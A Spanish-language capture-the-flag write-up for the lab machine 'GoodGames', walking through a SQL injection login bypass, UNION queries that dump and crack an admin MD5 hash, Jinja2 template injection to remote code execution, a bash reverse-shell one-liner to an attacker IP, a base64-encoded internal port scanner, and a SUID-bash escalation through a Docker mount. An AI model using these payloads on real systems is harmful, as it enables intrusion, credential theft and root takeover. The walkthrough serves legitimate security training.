GoodGames¶


- Si usamos gobuster nos devuelve un error

Lo arreglamos añadiendo al final

-
En 10.129.69.130/blog vemos que ningún artículo9 nos redirige hacia otra pag excepto el de GRAB YOUR SWORD AND FIGHT THE HORDE -> Nos redirige hacia 10.129.69.130/blog/1 (ese 1 me hace pensar maldades) Intento probar sqli (404) o IDOR (500) y no encuntro nada a priori
-
Encontramos un posible usuario admin que comenta en el blog. También hay otros como Wolfestein, hitman etc
-
Vemos que a la hora de loguearnos no podemos intentar un SQLi o algún XSS ya que se nos pone en rojo el campo si no tiene un formato de correo,

Si interceptamos la petición con Burpsuite, y intentamos un bypass con sqli de la forma
(URLencodeando con ctrl+u)

Conseguimos acceder al usuario admin
-
Arriba a la derecha vemos una tuerca nueva de opciones donde se nos dice que no se puede conectar a un internal-administration.goodgames.htb -> a /etc/hosts
-
Nos encontramos con un panel de login de Flask Volt ->

- intentaremos ahora enumerar datos de la base de datos. En lugar de
, ahora intentaremos enumerar el número de columnas que se lanzan en la query.¶
- Para 5 o más no nos devuelve nada

- Para 4 o menos, vemos que se cumple la condición y nos logea correctamente

-
(siempre urlencodeado por burp) -> vale no hace falta
Parece que el campo 4 es el que se muestra y utilizaremos para dumpear inforación
(Vengo del futuro. Ya resuelta la máquina podríamos probar a inyectar un SSTI con
y si vieramos 14, significa que el servidor lo ha interpretado y que es vulnerable a SSTI, pero no es el caso, nos muestra el literal {{7*7}})
-
MAIN

-
schemamain
-
information_schema,main
-
' union select 1,2,3,group_concat(table_name) from information_schema.tables where table_schema='main'-- -
testblog,blog_comments,user
-
' union select 1,2,3,group_concat(column_name) from information_schema.columns where table_schema='main' and table_name='user'-- -
email,id,name,password
-
| admin@goodgames.htb | admin | 2b22337f218b2d82dfc3b6f77e7cb8ec |
|---|---|---|
| test@test.com | test | cc03e747a6afbbcbf8be7668acfebee5 |
| test1@test.com | test' | or 1=1-- -:5a105e8b9d40e1329780d62ea2265d8a |
| test2@test.com | test" | ad0234829205b9033196ba818f7a872b |
| Nos interesa la de admin, ya que las demás son creadas por nosotros | ||

-
huele a MD5
-
Lo pasamos por hashes.com

admin:admin@goodgames.htb:superadministrator
- Se podría haber hecho con john
-
1 Detectar el formato
-
2 Crackear
-
Intentaremos ahora reutilizar estas credenciales en el login de Flask Volt Estamos dentro

- Vemos que puede ser posible un SSTI, lo cual suele ser recurrente en python

Encontramos un repo con payloads para la etiqueta correcta (tendremos que encontrarla) para Flask, que está soportado por Jinja2 según se dice - podríamos haber buscado con payloadsalthethings https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Server%20Side%20Template%20Injection/Python.md

- Buscaremos algún payload de RCE para intentar lanzarnos una revshell


Escribiendo esto en el campo de Full Name dentro de los settings de My Profile vemos que ejecutamos el comando id, el cual aparece en nuestro nombre interpretado por el sistema.
- Intentaremos lanzarnos una shell con el oneliner típico
{{ self.__init__.__globals__.__builtins__.__import__('os').popen('bash -c "bash -i >&/dev/tcp/10.10.17.61/443 0>&1"').read() }}
root (dentro del docker)
No encuentro la flag asique me meto en /backed/project/apps/config.py y veo ciertas credenciales

- Si hacemos

Vemos que NO estamos en la ip de la máquina víctima xd - Es probable que estemos dentro de un contenedor
ESCALADA
- Consultamos las rutas del contenedor con

Podríamos pensar que la 172.19.0.1 es la interfaz que te asigna docker y a través de la cual podremos comunicarnos con la máquina víctima
- Vemos que existe un usuario augustus el cual no consta en /etc/passwd, por lo que nos hace pensar que el directorio /home/augustus está montado desde el host y está en un grupo 1000, el cual no figura en los grupos de /etc/group


- Vemos que existe una montura

Está traída de /dev/sda1
-
Nos montaremos un script para detectar puertos abiertos en la máquina víctima que solo está conectada a traves de la interfaz interna con el contenedor al que hemos ganado acceso.
-
Para detectar puertos abiertos bastará con enviar una cadena vacía al puerto por /dev/tcp y comprobar si el código de estado de salida es exitoso o no, si lo es, siginificará que el puerto está abierto

-
-> para que por cada comando no tarde más de un segundo si se quedara pillado¶
-> quitan y dan el control del mouse respectivamente¶
-> al ponerlo al final del comando usa hilos para ir más rápido ·
-> realiza el siguiente comando si el anterior ha sido satisfactorio (es decir, con código de salida exitoso)
-
Nos lo base64 encodeamos y copiamos a la clipboard para pasarnoslo al contenedor vulnerado (no tiene nano, vi, etc donde editar código)
-
Desde el contenedor vulnerado lo base64decodeamos y nos lo metemos en un archivo
echo IyEvYmluL2Jhc2gKCmZ1bmN0aW9uIGN0cmxfYygpewogIGVjaG8gLWUgIlxuXG5bIV0gU2FsaWVuZG8uLi5cbiIKICB0cHV0IGNub3JtOyBleGl0IDEKfQoKIyBDdHJsICsgQwp0cmFwIGN0cmxfYyBJTlQKCnRwdXQgY2l2aXMKZm9yIHBvcnQgaW4gJChzZXEgMSA2NTUzNSk7IGRvCiAgdGltZW91dCAxIGJhc2ggLWMgImVjaG8gJycgPiAvZGV2L3RjcC8xNzIuMTkuMC4xLyRwb3J0IiAyPi9kZXYvbnVsbCAmJiBlY2hvICJbK10gUHVlcnRvICRwb3J0IC0gT1BFTiIgJgpkb25lOyB3YWl0CnRwdXQgY25vcm0K | base64 -d > portScan.sh

-
Le damos permisos de ejecución
-
Ejecutamos

-
Probamos a reutilizar credenciales por ssh y conseguimos entrar con augustus:superadministrator augustus
-
Vemos que ahora sí estamos en la máquina víctima

Dentro de esta máquina tenemos solo dos usuarios también, augustus y root
- Como tenemos muy pocos comandos (no están nano, getcap y alguno mas) vamos a exportarnos nuestro $PATH al de la máquina víctima En nuestra máquina
-> lo copiamos En la víctima
Ahora tenemos getcap
-
capabilites -> solo ping NADA
-
La jugada será, copiarnos la bash hacia el directorio donde está la montura en el contenedor. De esta forma, entraremos al contenedor (tenemos permisos de root) y le cambiaremos los permisos SUID a esa bash y le cambiaremos el grupo y propietario a root, que como está sincronizada con la máquina víctima nos permitirá acceder a root desde ella por el recurso compartido
-
MV (tenemos permiso de agustus)
-
Contenedor (tenemos permiso de root)
-
MV (tenemos permiso de augustus pero ahora la bash tiene suid)
root